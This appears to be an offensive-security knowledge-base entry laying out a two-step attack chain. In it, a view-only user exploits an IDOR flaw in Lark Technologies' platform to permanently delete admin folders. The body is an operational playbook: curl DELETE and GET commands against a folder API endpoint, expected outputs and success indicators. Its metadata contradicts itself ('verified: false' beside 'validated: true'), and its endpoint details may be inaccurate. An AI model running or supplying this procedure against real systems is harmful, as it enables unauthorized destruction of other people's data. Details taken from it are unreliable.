

---
tags:
  - idor
  - web
  - authorization-bypass
  - data-deletion
  - access-control
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-IDOR-in-Folder-Access-with-View-Permissions]]'
  - '[[procedures/Exploit-IDOR-to-Permanently-Delete-Admin-Folder]]'
step_count: 2
techniques:
  - '[[Account Discovery]]'
  - '[[Exploitation for Privilege Escalation]]'
updated_at: '2025-12-14T17:25:29.126Z'
description: >-
  A multi-stage attack exploiting an Insecure Direct Object Reference (IDOR)
  vulnerability in Lark Technologies' platform, enabling a view-only user to
  permanently delete administrative folders using direct alphanumeric tokens.
skill_level: intermediate
impact_level: high
id: 342eb240-f7f2-4eb6-87fa-fb1da6d9f354
validated: true
mitre_tactics:
  - '[[Discovery]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Account Discovery]]'
  - '[[Exploitation for Privilege Escalation]]'
---
# IDOR Exploitation: View-Only User Deletes Admin Folders in Lark Platform

Multi-stage attack chain demonstrating a complete attack workflow exploiting an IDOR vulnerability in Lark Technologies' platform to enable unauthorized folder deletion.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or curl for API requests

### Target Environment

- Web platform (Lark Technologies application)
- Required services/ports: HTTPS (443)
- Network access requirements: Authenticated access to the platform

### Initial Access Requirements

- Valid user credentials with view-only permissions
- Network position: Internal authenticated session
- Prior access needed: Login to the platform and obtain a folder's alphanumeric token (e.g., via legitimate viewing or enumeration)

## Detailed Attack Procedures

### Step 1: Identify the IDOR Vulnerability
procedure: [[procedures/Identify-IDOR-in-Folder-Access-with-View-Permissions]]

**Objective**: Test and confirm the IDOR vulnerability by attempting a delete action on a folder using only view permissions and its direct alphanumeric token, bypassing authorization checks.

**Instructions**: Log in with view-only credentials. Obtain the target folder's alphanumeric token (e.g., from URL or API response during normal viewing). Use [[commands/curl-delete-lark-folder]] to submit a delete request to the folder endpoint, observing if the action succeeds without elevated permissions.

```bash
curl -X DELETE -H "Authorization: Bearer $ACCESS_TOKEN" -H "Content-Type: application/json" https://app.lark.com/api/v1/folders/{folder_token}
```

**Expected Output**: HTTP 200 or 204 response indicating successful deletion, or error revealing lack of proper checks (e.g., no permission denial).

**Success Indicators**:
- Delete request processes without authorization error
- Folder access or metadata is retrievable pre-deletion to confirm token validity

### Step 2: Exploit the IDOR to Delete the Folder
procedure: [[procedures/Exploit-IDOR-to-Permanently-Delete-Admin-Folder]]

**Objective**: Permanently delete the target admin folder from the bin, causing data loss by leveraging the confirmed IDOR vulnerability.

**Instructions**: With the authenticated view-only session and known folder token, execute the delete request using [[commands/curl-delete-lark-folder]]. Verify deletion by attempting to access the folder afterward.

```bash
curl -X DELETE -H "Authorization: Bearer $ACCESS_TOKEN" -H "Content-Type: application/json" https://app.lark.com/api/v1/folders/{folder_token}
```

Post-deletion, check the admin bin or attempt GET on the endpoint to confirm removal.

```bash
curl -H "Authorization: Bearer $ACCESS_TOKEN" https://app.lark.com/api/v1/folders/{folder_token}
```

**Expected Output**: Successful delete response (200/204), followed by 404 or access denied on GET, confirming permanent removal.

**Success Indicators**:
- Folder no longer accessible in admin bin
- No rollback or permission prompts during deletion

## Attack Chain Summary

### Key Achievements

1. Bypassed authorization to perform delete actions with view-only permissions
2. Achieved unauthorized permanent deletion of admin resources
3. Demonstrated potential for widespread data loss in collaborative platforms

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Discovery]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T00:00:00Z*
